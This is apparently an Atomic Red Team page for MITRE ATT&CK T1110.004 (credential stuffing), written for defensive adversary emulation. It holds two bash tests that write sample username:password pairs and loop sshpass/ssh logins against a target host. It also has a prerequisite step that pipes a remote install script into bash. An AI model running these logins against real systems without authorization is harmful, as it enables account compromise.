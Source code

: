 # T1110.004 - Credential Stuffing
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1110/004)
<blockquote>Adversaries may use credentials obtained from breach dumps of unrelated accounts to gain access to target accounts through credential overlap. Occasionally, large numbers of username and password pairs are dumped online when a website or service is compromised and the user account credentials accessed. The information may be useful to an adversary attempting to compromise accounts by taking advantage of the tendency for users to use the same passwords across personal and business accounts.

Credential stuffing is a risky option because it could cause numerous authentication failures and account lockouts, depending on the organization's login failure policies.

Typically, management services over commonly used ports are used when stuffing credentials. Commonly targeted services include the following:

* SSH (22/TCP)
* Telnet (23/TCP)
* FTP (21/TCP)
* NetBIOS / SMB / Samba (139/TCP & 445/TCP)
* LDAP (389/TCP)
* Kerberos (88/TCP)
* RDP / Terminal Services (3389/TCP)
* HTTP/HTTP Management Services (80/TCP & 443/TCP)
* MSSQL (1433/TCP)
* Oracle (1521/TCP)
* MySQL (3306/TCP)
* VNC (5900/TCP)

In addition to management services, adversaries may "target single sign-on (SSO) and cloud-based applications utilizing federated authentication protocols," as well as externally facing email applications, such as Office 365.(Citation: US-CERT TA18-068A 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - SSH Credential Stuffing From Linux](#atomic-test-1---ssh-credential-stuffing-from-linux)

- [Atomic Test #2 - SSH Credential Stuffing From MacOS](#atomic-test-2---ssh-credential-stuffing-from-macos)


<br/>

## Atomic Test #1 - SSH Credential Stuffing From Linux
Using username,password combination from a password dump to login over SSH

**Supported Platforms:** Linux




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_host | IP Address / Hostname you want to target. | String | localhost|


#### Attack Commands: Run with `bash`! 


```bash
cat > /tmp/usernamepass.txt << EOF
john.doe:jonathan123!
jane.doe:spongebob402
administrator:administrator90
admin:admin303&
root:toor
centos:centos
john.smith:summer2019!
jane.smith:princesa29
EOF

for unamepass in $(cat /tmp/usernamepass.txt);do sshpass -p `echo $unamepass | cut -d":" -f2` ssh -o 'StrictHostKeyChecking=no' `echo $unamepass | cut -d":" -f1`@#{target_host};done
```




#### Dependencies:  Run with `bash`!
##### Description: Requires Installation of SSHPASS
##### Check Prereq Commands:
```SSHPASS
if [ -x "$(command -v sshpass)" ]; then exit 0; else exit 1; fi; 
```
##### Get Prereq Commands:
```SSHPASS
if [ $(cat /etc/os-release | grep -i ID=ubuntu) ] || [ $(cat /etc/os-release | grep -i ID=kali) ]; then sudo apt update && sudo apt install sshpass -y; else echo "This test requires sshpass" ; fi ;
```




<br/>
<br/>

## Atomic Test #2 - SSH Credential Stuffing From MacOS
Using username,password combination from a password dump to login over SSH

**Supported Platforms:** macOS




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_host | IP Address / Hostname you want to target. | String | localhost|


#### Attack Commands: Run with `bash`! 


```bash
cat > /tmp/usernamepass.txt << EOF
john.doe:jonathan123!
jane.doe:spongebob402
administrator:administrator90
admin:admin303&
root:toor
centos:centos
john.smith:summer2019!
jane.smith:princesa29
EOF

for unamepass in $(cat /tmp/usernamepass.txt);do sshpass -p `echo $unamepass | cut -d":" -f2` ssh -o 'StrictHostKeyChecking=no' `echo $unamepass | cut -d":" -f1`@#{target_host};done
```




#### Dependencies:  Run with `bash`!
##### Description: Requires Installation of SSHPASS
##### Check Prereq Commands:
```SSHPASS
if [ -x "$(command -v sshpass)" ]; then exit 0; else exit 1; fi; 
```
##### Get Prereq Commands:
```SSHPASS
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/master/install.sh)"
brew install hudochenkov/sshpass/sshpass
```




<br/>
